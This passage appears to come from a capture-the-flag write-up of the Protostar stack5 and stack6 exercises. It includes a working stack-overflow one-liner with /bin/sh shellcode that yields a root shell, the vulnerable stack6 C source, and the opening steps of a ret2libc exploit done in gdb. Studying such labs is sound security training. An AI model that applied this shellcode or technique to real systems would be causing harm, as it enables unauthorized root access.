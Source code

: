 echo `python -c 'print("A"*76 + "\xc0\xfc\xff\xbf" + "\x90"*20 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'` | ./stack5
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
# 

{% endhighlight %}
# Stack Six
Provided Source:
{% highlight c linenos %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
{% endhighlight %}
Vulnerability
We can still overwrite critical pointers in the application...
Theres still a solid buffer overflow here but this time we have to use it to call functions ourself out of the c library. This is more commonly known as Ret2Libc, we will setup a call to /bin/bash with libc offsets in memory then should be rewarded with a shell in return.

Exploit:
{% highlight bash %}
# Finding the EIP offset
gdb-peda$ pattern_create 180
<removed for sanity>
> Input into stdin through gdb
Program received signal SIGSEGV, Segmentation fault.
0x41414a41 in ?? ()
(gdb) 

gdb-peda$ pattern_offset 0x41414a41
1094797889 found at offset: 80

# Getting libc base
ldd stack6
        linux-gate.so.1 =>  (0xb7fe4000)
